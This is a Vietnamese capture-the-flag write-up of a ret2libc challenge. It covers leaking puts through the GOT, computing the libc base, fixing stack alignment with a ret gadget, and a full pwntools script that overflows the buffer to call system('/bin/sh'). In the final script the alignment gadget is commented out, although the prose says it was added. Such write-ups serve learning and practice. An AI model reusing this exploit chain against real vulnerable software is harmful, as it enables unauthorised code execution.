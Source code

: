 # TASK3_RET2LIBC

bài này có dạng **ret2libc** nhưng mà khác phứt tạp 

**ida:**
![image](https://github.com/gookoosss/CTF.-/assets/128712571/3249d015-6e55-4671-9b21-454ea99e403b)



**checksec và vm:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/3bb94415-5847-40b0-8d2c-eacb60f52b36)


bài này ko thể dùng **ret2shellcode được vì NX đã mở**

cách đơn giản và quen thuộc nhất là **ret2libc** thôi

![image](https://github.com/gookoosss/CTF.-/assets/128712571/835e1788-d75e-48ed-85fc-7beb1bb0d102)


ta thấy có địa chỉ hàm **puts** trong **libc**, nên cách đơn giản là ta gán địa của **puts** trong **libc** vào **rdi** , sau đó dùng plt để thực thi hàng puts, từ đó mà ta có thể tính **địa chỉ base của libc**

**note:** cài này trong bof7 mình có giải thích rất kĩ và chi tiết rồi nên giờ mình chỉ nêu hướng làm thôi

![image](https://github.com/gookoosss/CTF.-/assets/128712571/9a9bd12f-56b0-48e5-8ada-31e45b59f9d6)


**Chú ý quan trọng:** địa chỉ base của libc phải là **libc.address** , lý do:

![image](https://github.com/gookoosss/CTF.-/assets/128712571/e61cbf43-2353-4f3a-8388-d0ce3701d4be)


**bonus:** 

![image](https://github.com/gookoosss/CTF.-/assets/128712571/29007dfa-981a-4a17-9b65-633207337f4e)


oke sau khi đó địa chỉ libc rồi thì ta chạy lại hàm main và nhập offset như cũ, sau đó gán **/bin/sh** trong libc vào **rdi**, cuối cùng là chạy hàm **system** là xong

![image](https://github.com/gookoosss/CTF.-/assets/128712571/4fe000d0-b5fd-45a2-a867-5aa84d6f43a0)


**có vẻ không như mong đợi**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/da551338-acd0-4272-a2e8-c45a0c10088c)


ở đây có lỗi **xmm1** rồi

debug lại xem sao nào

![image](https://github.com/gookoosss/CTF.-/assets/128712571/7d554450-3e30-4204-988e-668df896c3ef)


**hmm như ta đã thầy thì địa rsp trỏ đến hàm system luôn là địa chỉ lẻ , ko thể chia hết cho 16, nên khi chạy vào system sẽ bị lỗi xmm1**


**lúc này rsp đang ở hàm ret, ta tìm 1 gadget của ret để đẩy hàm system lên địa chỉ chia hết cho 16**

giải thích thêm:

![image](https://github.com/gookoosss/CTF.-/assets/128712571/62511014-bd1d-40d5-8152-5b9521448a02)



**oke h tìm gadget của ret thôi**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/5a3cefe4-2812-440f-9c88-e99caf921f43)


lấy cái đầu tiên là **0x000000000040101a**

h hoàn thiện script là xong

**à mà nếu thi ctf thực tế thì cần pwninit với file libc hợp lệ nha**


**script:**

```
from pwn import *

p = process('./libleak_patched')
exe = ELF('./libleak_patched')
libc = ELF('libc.so.6')

pop_rdi = 0x0000000000401313
ret_addr  = 0x000000000040101a

payload = b'a'*88 
payload += p64(pop_rdi) + p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(exe.sym['main'])

p.sendlineafter(b'Give me something useful: ', payload)

libc_leak = u64(p.recv(6) + b'\0\0')
libc.address = libc_leak - libc.sym['puts']
log.info("libc leak: " + hex(libc_leak))
log.info("libc base: " + hex(libc.address))

gdb.attach(p, gdbscript = '''
b*main+158
c
''')

input()


payload = b'a'*88
payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
# payload += p64(ret_addr)
payload += p64(libc.sym['system'])
p.sendlineafter(b'Give me something useful: ', payload)


p.interactive()
```
chạy lại thì địa chỉ rsp là **0x007ffc0ae1cb90** nên ko bị lỗi **xmm1** nữa

![image](https://github.com/gookoosss/CTF.-/assets/128712571/e328d2b7-b429-4458-96fb-3b3d40b2dc3b)



**xong rồi nè**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/4bcb947c-2d9a-45d5-88c2-18b4123ab230)


**à bonus thêm cách 2 dùng địa chỉ đề tặng nè:**

![image](https://github.com/gookoosss/CTF.-/assets/128712571/2aa08d02-bea3-4816-936d-f18e4f3304ea)


**check ida thì thấy địa chỉ đề cho là của hàm sleep, ta có thể leak địa chỉ này bằng cách dùng recvuntil và recvall, sau đó dùng địa chỉ sleep này để tính offset đến địa chỉ base của libc, và thế là ta đã có được địa chỉ libc mà ko cần dùng cách thông thường**

mệt xỉu :(( 
